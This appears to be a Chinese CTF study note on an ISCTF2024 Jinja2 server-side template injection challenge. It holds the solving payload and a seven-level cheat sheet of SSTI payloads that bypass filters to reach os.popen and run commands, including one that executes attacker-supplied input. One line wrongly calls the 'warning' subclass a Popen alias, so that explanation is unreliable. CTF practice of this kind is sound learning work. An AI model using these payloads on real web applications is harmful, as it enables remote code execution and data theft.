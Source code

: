
#wp #web

【[[WEB]]】[[ssti]] - [[扩展题目]]

创建时间：2025-07-06 00:28

题目来源：ISCTF2024
### 解题过程

```python
{{lipsum
  |attr("\u005f\u005fglobals\u005f\u005f")
  |attr("\u005f\u005fgetitem\u005f\u005f")("os")
  |attr("popen")("cat /flag")
  |attr("read")()
}}
```

SSTI payload参考：
##### level 1  测试是否存在ssti
```
{{7*7}}    
```
##### level 2  直接执行系统命令（无过滤）
```
{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```
##### level 3  子类枚举触发 Popen（绕过对 config 的依赖）
```
{{''.__class__.mro()[1].__subclasses__()[396]('cat /flag', shell=True, stdout=-1).communicate()[0]}}
```
##### level 4  中级绕过——点与下划线被过滤
1. **数组/字典访问**：
```
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag')['read']()}}
```
2. **Hex 转义下划线**：
```
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('cat /flag')['read']()}}
```
##### level 5  高级绕过——`attr` 过滤器链
	完全不用 `.`、`_`、`[]`，通过 Jinja2 的 `attr` 动态调用,利用管道和 `attr` 彻底绕过黑名单
```
{{request
  |attr('application')
  |attr('\x5f\x5fglobals\x5f\x5f')
  |attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
  |attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')
  |attr('popen')('cat /flag')
  |attr('read')()
}}
```
##### level 6 `config.items()` + 子类枚举
- 当 `config` 对象或 `__init__.__globals__` 被屏蔽时，可先枚举配置项再反射：
```
{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]('/tmp/flag').read()}}
```
先从 `config.items()` 拿到任意对象，再通过其 `__class__` 枚举子类 [pwny.cc](https://www.pwny.cc/web-attacks/server-side-template-injection-ssti?utm_source=chatgpt.com)
##### level 7 极致绕过——动态 for 循环 + 条件筛选
- 无需固定索引，遍历子类列表并按名称筛选执行（适合对索引未知的环境）：
```
{% for x in ().__class__.__base__.__subclasses__() %}
  {% if "warning" in x.__name__ %}
    {{ x()._module.__builtins__['__import__']('os').popen(request.args.input).read() }}
  {% endif %}
{% endfor %}
```
遍历所有子类，匹配名称包含 “warning” 的类（通常是 `subprocess.Popen` 的别名），再执行命令 [github.com](https://github.com/payloadbox/ssti-payloads?utm_source=chatgpt.com)
